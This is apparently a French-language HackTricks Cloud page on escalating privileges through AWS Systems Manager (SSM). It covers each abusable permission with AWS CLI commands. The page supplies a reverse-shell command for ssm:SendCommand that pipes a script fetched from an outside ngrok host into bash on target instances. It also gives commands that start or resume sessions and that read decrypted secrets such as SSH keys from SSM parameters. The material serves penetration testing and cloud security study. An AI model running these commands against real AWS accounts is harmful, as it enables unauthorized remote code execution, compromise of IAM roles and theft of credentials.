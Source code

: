 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Pour plus d'informations sur SSM, consultez :

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un attaquant avec la permission **`ssm:SendCommand`** peut **exécuter des commandes dans des instances** exécutant l'agent Amazon SSM et **compromettre le rôle IAM** s'exécutant à l'intérieur.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Dans le cas où vous utilisez cette technique pour élever les privilèges à l'intérieur d'une instance EC2 déjà compromise, vous pourriez simplement capturer le rev shell localement avec :
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impact potentiel :** Privesc direct vers les rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM en cours d'exécution.

### `ssm:StartSession`

Un attaquant ayant la permission **`ssm:StartSession`** peut **démarrer une session similaire à SSH dans les instances** exécutant l'agent Amazon SSM et **compromettre le rôle IAM** s'exécutant à l'intérieur.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Pour commencer une session, vous devez avoir le **SessionManagerPlugin** installé : [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impact potentiel :** Privesc direct aux rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM en cours d'exécution.

#### Privesc à ECS

Lorsque les **tâches ECS** s'exécutent avec **`ExecuteCommand` activé**, les utilisateurs ayant suffisamment de permissions peuvent utiliser `ecs execute-command` pour **exécuter une commande** à l'intérieur du conteneur.\
Selon [**la documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), cela se fait en créant un canal sécurisé entre l'appareil que vous utilisez pour initier la commande “_exec_” et le conteneur cible avec SSM Session Manager. (Plugin SSM Session Manager nécessaire pour que cela fonctionne)\
Par conséquent, les utilisateurs avec `ssm:StartSession` pourront **obtenir un shell à l'intérieur des tâches ECS** avec cette option activée en exécutant simplement :
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impact potentiel :** Privesc direct aux rôles `ECS`IAM attachés aux tâches en cours avec `ExecuteCommand` activé.

### `ssm:ResumeSession`

Un attaquant avec la permission **`ssm:ResumeSession`** peut re-**démarrer une session similaire à SSH dans des instances** exécutant l'agent Amazon SSM avec un état de session SSM **déconnecté** et **compromettre le rôle IAM** s'exécutant à l'intérieur.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impact potentiel :** Privesc direct vers les rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM en cours d'exécution et des sessions déconnectées.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un attaquant avec les permissions mentionnées sera capable de lister les **paramètres SSM** et **de les lire en clair**. Dans ces paramètres, vous pouvez fréquemment **trouver des informations sensibles** telles que des clés SSH ou des clés API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur des paramètres.

### `ssm:ListCommands`

Un attaquant avec cette permission peut lister toutes les **commandes** envoyées et espérer trouver des **informations sensibles** à leur sujet.
```
aws ssm list-commands
```
**Impact potentiel :** Trouver des informations sensibles dans les lignes de commande.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un attaquant avec ces autorisations peut lister toutes les **commandes** envoyées et **lire la sortie** générée en espérant trouver des **informations sensibles** dessus.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impact potentiel :** Trouver des informations sensibles dans la sortie des lignes de commande.

### Codebuild

Vous pouvez également utiliser SSM pour accéder à un projet codebuild en cours de construction :

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
